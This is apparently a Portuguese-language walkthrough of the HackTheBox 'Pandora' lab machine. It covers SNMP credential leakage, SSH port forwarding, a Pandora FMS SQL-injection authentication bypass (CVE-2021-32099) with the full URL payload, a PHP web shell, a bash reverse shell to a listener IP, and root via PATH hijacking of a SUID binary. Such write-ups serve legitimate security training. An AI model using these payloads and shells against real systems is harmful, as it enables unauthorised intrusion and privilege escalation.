

# Resolução da máquina **Pandora**

#### Máquina EASY (hackthebox.com)

#### by **_JavaliMZ_** - 02/02/2022

---

---

# Introdução

Boas pessoal. Já não escrevo writeups há muito tempo, e decidi escrever este porque a máquina é relativamente simples, e traz conceitos interessantes. Além disso, só tinha (à hora da elaboração deste writeup) apenas 1 máquina Linux, contra 7 máquinas Windows... Então decidi que era hoje que ia criar conteúdo novo.

# Enumeração

## Nmap

Seguindo a metodologia de sempre, começamos pela enumeração das portas da máquina:


Existem aparentemente apenas 2 portas aberta em TCP, a porta SSH e a porta HTTP.


Com a ferramenta _whatweb_, vemos ums emails relacionado com a máquina: ***contact@panda.htb*** e ***support@panda.htb***. Podemos pensar em VirtualHosting, e servidor de email SMTP. Mas nenhuma porta está aberta...

## VirtualHosting e WebPage

Para verificar se existe virtual hosting, vamos começar pelo básico, adicionar o host ao /etc/hosts. Temos um potencial hostname válido, o **panda.htb**

```bash
sudo su
echo "\n\n10.10.11.136\tpanda.htb" >> /etc/hosts
```

Ao abrir o url http://10.10.11.136/ ou a http://panda.htb, não se verifica alterações nenhumas...

Ao enumerar as rotas do site, tanto pelo http://10.10.11.136/ e pelo http://panda.htb, não se verifica nada de interessante. Enumerei também os nomes do hosts diferentes com a mesma ferramenta, e depois rodei todos os nomes dos novos hosts sem que nada de novo aparecesse. Para isso é preciso também adicionar os novos hosts ao /etc/hosts

```bash
# Enumeração das rotas do site http://panda.htb, bem como de possíveis ficheiros txt, js, html, php. Para o site http://10.10.11.136/ é só substituir... mas o resultado é o mesmo
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://panda.htb/FUZZ -t 200 -r -e .txt,.js,.html,.php

# Enumeração dos hosts
# Primeiro, perceber quantos caracteres compõem a mensagem de erro normal
curl -s -H "Host: iuagveifjhbakjdsbfkjabskdfjba.panda.htb" http://panda.htb | wc -c  # 33560
# Depois filtrar as resposta com esse tamanho para não aparecer uma lista enorme de falsos positivos adicionando "-fs 33560" ao commando para enumerar os hosts
ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://panda.htb -H "Host: FUZZ.panda.htb" -t 200 -fs 33560
```

Não houve respostas nenhuma ao último comando... O site não apresenta nenhuma campo editável, nenhum parâmetro por explorar... Estamos bloqueados... O que fazer agora?

Bem ainda não fizemos nada acerca das portas UDP! Por defeito, o nmap usa a flag -sT (TCP SCAN) mesmo não especificando manualmente a flag, mas existem mais. Para fazer um escaneamento às portas UDP, é preciso indicar-lhe a flag -sU (Necessita ser **root**!). Este método de Scan é extremamente lento, devido ao próprio protocolo em si.

-   Em TCP, existe sempre a confirmação da resposta, em primeira instância para confirmar que o alvo está recetivo, e em segunda instância para confirmar que recebeu a mensagem
-   Em UDP, é mais ao menos _Tenho isto para enviar, então envio. Só. Que se lixe se alguém recebe... Estou-me nas tintas_. São ditas **_ConnectionLess_**

Por isso, em UDP, o nmap não tem como saber se a conexão está a demorar porque não está aberta, ou foi bloqueada por firewall, ou se está aberto mas para um programa que não tem por função enviar uma resposta (está a receber caladinho a informação que o nmap enviou), ou seja o que for...

Em suma, em UDP (e visto que estamos no CTF), podemos limitar o número de portas às top 20 portas comuns.

```bash
sudo nmap --top-ports 20 -sU $IP -vvv
# ...
# 161/udp   open          snmp         udp-response ttl 63
# ...
```

Temos entre a resposta, a confirmação que uma porta está aberta! A porta UDP 161. Existem várias ferramentas para bruteforce do serviço SMNP associado. O _snmpwalk_ e o _snmp-check_

Ambos fazem o mesmo, mas o snmpwalk apresenta o resultado em bruto! O que não é agradável à vista. Sendo assim, recomnedo mesmo o snmp-check para a enumeração do serviço SNMP

## SNMP

```bash
snmp-check 10.10.11.136
# ...
# 127.0.0.1    3306         0.0.0.0      0            listen
# 127.0.0.53   53           0.0.0.0      0            listen
# ...
# 1274   runnable   host_check   /usr/bin/host_check   -u daniel -p HotelBabylon23
# ...
```

No meio de um pouco mais de 1200 linhas, podemos ver duas informações relevantes.

-   Está a ser executado por uma tarefa cronica um comando **"host_check"** e vemos em texto claro possíveis credenciais...
-   Existe realmente um serviço de virtualhosting a rodar na porta 53. Ainda não sabemos se é relevante ou não.
    > daniel:HotelBabylon23

# Getting Shell

## SSH

A porta SSH encontra-se aberta, e temos credenciais. Vamos simplesmente tentar fazer login via SSH.

```bash
sshpass -p HotelBabylon23 ssh daniel@10.10.11.136
```

Entramos na máquina.


## Enumeração do sistema

Após meia dúzia de comandos pela máquina, percebi o seguinte:


Existe um binário bastante suspeito! pandora_backup. É SUID. Significa que, neste caso, o usuário "***matt***" executa este ficheiro temporariamente enquanto usuário "***root***". Logo, se conseguirmos ser "***matt***", podemos tentar ver o que se passa com o binário, se apresenta algum tipo de vulnerabilidade.

## VirtualHost

Agora que estamos na máquina, podemos verificar se existe virtual hosting. Para isso, tenho feito da seguinte maneira:

-   verificar o CMS
-   Sabendo o CMS, pesquisar o diretório/ficheiro onde está armazenado a informação de virtual hosting.

Para este caso, nos já sabemos o CMS que está a ser usado, pelo comando "**_whatweb_**" que efectuamos logo depois do nosso "**_nmap_**". É um Apache 2.4.41. Normalmente, a pretendida informação encontra-se no diretório /etc/apache2/sites-available/


Agora sim podemos afirmar que existe algo mais. Exite um site geral, acessível por toda a web **_(\<VirtualHost _:80>)_** com o seu conteúdo definido em /var/www/html, e existe outro site, acessível apenas pelo localhost **_(\<VirtualHost localhost:80>)_** cujo diretório referente encontra-se em /var/www/pandora.

> E agora? o que fazemos com esta informação?

Podemos tentar ver os ficheiros todos do site, pode sempre ter informações, credenciais em texto claro... Mas primeiro, queremos simplesmente visualizar a página web. Para isso, vamos recorrer a port forwarding.

> Ok... Mas já estamos na máquina alvo... para que serve de "sair" para "entrar" de novo por outra via?

```bash
daniel@pandora:/var/www$ ll
total 16
drwxr-xr-x  4 root root 4096 Dec  7 14:32 ./
drwxr-xr-x 14 root root 4096 Dec  7 14:32 ../
drwxr-xr-x  3 root root 4096 Dec  7 14:32 html/
drwxr-xr-x  3 matt matt 4096 Dec  7 14:32 pandora/
```

Pode servir para diversas coisas. Pode o novo site ter um serviço com credenciais de todos os usuários, pode ter acesso a uma base de dados com mais privilégios, e muitas coisas mais...
Neste caso serve para o seguinte:
-	O site principal, aberto ao público, não tem nada de relevante, não tem pontos de entrada.
-	O segundo site, apenas acessível pelo localhost, tem como proprietário e "*AssignUserID*" o usuário "***matt***". Significa que tudo o que for feito nesta página será executado por "***matt***"!. Se for encontrado vulnerabilidades, podemos até executar código (RCE) com o usuário "***matt***".

## PortForwarding

Para fazer port forwarding, podemos usar uma ferramenta que nunca me falhou, é fácil de usar e é multi plataforma: O "***Chisel***". Mas para este caso nem vai ser necessário, porque estamos na máquina via SSH, e o próprio SSH tem a opção de port forwarding. Para isso, basta terminar a conexão actual com a máquina vítima, e entrar novamente com uma flag a mais. A flag "***-L***"

```bash
sshpass -p HotelBabylon23 ssh daniel@10.10.11.136 -L 80:127.0.0.1:80
```
A partir de agora, o nosso próprio kali-linux (ou o sistema que for) está com a porta 80 ocupada com o servidor web da máquina vítima.


Estamos enfrentando uma página de login de um serviço chamado **Pandora FMS**. É basicamente um serviço de monitoramento de serviços. E por lá, podemos uploadar ficheiros sem restrições, e acessá-los também, o que significa que podemos executar código PHP de um ficheiro PHP que previamente se upload (RCE). Agora só falta entrar. Vamos ver primeiro se tem vulnerabilidades conhecidas. Precisamos para isso saber a versão do Pandora. O Pandora tem uma api, segundo a documentação, e lá, podemos ver como fazer para extrair a versão do pandora FMS

> https://pandorafms.com/manual/en/documentation/08_technical_reference/02_annex_externalapi

```bash
curl http://127.0.0.1/pandora_console/include/api.php?info=version
# Pandora FMS v7.0NG.742_FIX_PERL2020 - PC200103 MR34
```
Pesquisando com a ferramenta "***searchsploit***", não foi possível executar nenhum exploit que lá estava. Pesquisando pelo google, vi que o próprio site da Pandora FMS tem tudo sobre as suas vulnerabilidades!



## CVE-2021-32099

Esta vulnerabilidade parece perfeita para o nosso caso. A versão é exatamente a mesma, e permite um usuário random não autenticado de simplesmente entrar.

> Existe também um exelente artigo a explicar a vulnerabilidade: <br> https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained

E no github, encontramos tudo e mais alguma coisa sobre todos os assuntos! Este assunto não é exceção.

> https://github.com/ibnuuby/CVE-2021-32099

Pelos vistos basta entrar na página normal de login, e adicionar à URL **http://localhost/pandora_console/** o seguinte: **include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271**

Depois voltar á página inicial de login e já está...
**http://localhost/pandora_console/**

## RCE com usuário **matt**


Para executar comandos, é bastante simples. No File manager, é só fazer o upload de um ficheiro para executar comando. Eu vou logo executar o reverse shell, mas poderiamos criar outro ficheiro:

```php
# Existe mil e uma forma de executar comandos, dependendo de como está montado o serviço PHP. Para dar apenas 1 exemplo:
# Para RCE, através de um parâmetro:
<?php
     echo "\nURL Shell... url?cmd=<command>\n\n";
     echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>

# Para directamente ter o reverse shell:
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.230/443 0>&1'");?>
```

```bash
# Executar o nc em modo de escuta para receber o shell:
kali@kali: >     nc -lvnp 443

# Em outra consola, executar o ficheiro que "uploadamos" (Eu escolhi chamar o ficheiro de shell.php...)
kali@kali: >     curl http://localhost/pandora_console/images/shell.php
```

### Estabilizar o Reverse Shell

```bash
script /dev/null -c bash
export TERM=xterm
export SHELL=bash

# Ctrl + Z
stty raw -echo; fg; reset
stty rows 40 columns 170  # Tem corresponder ao vosso ecrã (stty -a numa consola do Kali)
```

# Escalada de privilégio

Agora que somos matt, podemos analisar o tal binário pandora_backup


No meio desses caracteres todos, podemos ver um clienttar -cvf /root/...

Este parece ser um unico comando "***tar***" que se colou ao "client" por não haver caracteres ASCII pelo meio. O que quero dizer é que, quem fez o binário, aparentemente, usou um simples comando "***tar***" para fazer o backup, mas não usou o caminho completo para chamar a ferramenta.

O que isto quer dizer? 

## Path Hijacking

Sabemos que o binário pandora_backup usa o tar. Onde se encontra isso?

```bash
which tar
# /usr/bin/tar
```
Ok. Mas como é que o computador sabe que está ali o programa? Existe uma variável no shell que indica isso. Chama-se PATH:

```bash
echo $PATH
# /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
É assim que o computador procura o programa, primeiro procura em "***/usr/local/sbin***", depois em "***/usr/local/bin***"... Todas as pastas estão separadas pelos dois pontos ":".
Mas esta variável é apenas uma variável do nosso shell actual, que facilmente se altera.

```bash
export PATH=.:$PATH
echo $PATH
# .:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 
```
Adicionamos um ponto "." à primeira pasta onde o computador vai procurar pelo programa. Significa que o computador vai procurar no diretório atual, e só depois nos outros diretórios.

Assim, basta criar um executável de nome "***tar***" numa pasta qualquer, e executar o binário pandora_backup a partir da mesma posição, para o linux assumir que o "***tar***" correto é o nosso próprio ficheiro "***tar***". E, já que o binário pandora_backup é SUID, e o seu proprietário é "***root***", significa que podemos escrever o que nos apetecer para que seja executado como "***root***". O mais fácil é chamar um bash novo...


#### Não funcionou! Porquê?

Sinceramente não sei, o que sei é que pelo ssh funcionou nesta máquina... Quando vi que não funcionou, procurei outra solução. criei uma chave id_rsa só para ter melhor conexão, conectei-me via SSH e o mesmo exploit funcionou... OK. Mistérios do Hacking!

```bash
ssh-keygen
cd /home/matt/.ssh
cat id_rsa.pub > authorized_keys
cat id_rsa
# Copiar o conteúdo e colar num novo ficheiro no nosso kali
kali@kali: >     nano id_rsa
kali@kali: >     # Colar e gravar
kali@kali: >     chmod 600 id_rsa
kali@kali: >     ssh matt@10.10.11.136 -i id_rsa
```

E agora, exatamente da mesma posição, alterando primeiro a variável PATH, optemos uma shell root


Agora só falta as flags...


> Obrigador por lerem o writeup! Até à próxima<br>
> Criadores da máquina: TheCyberGeek e dmw0ng

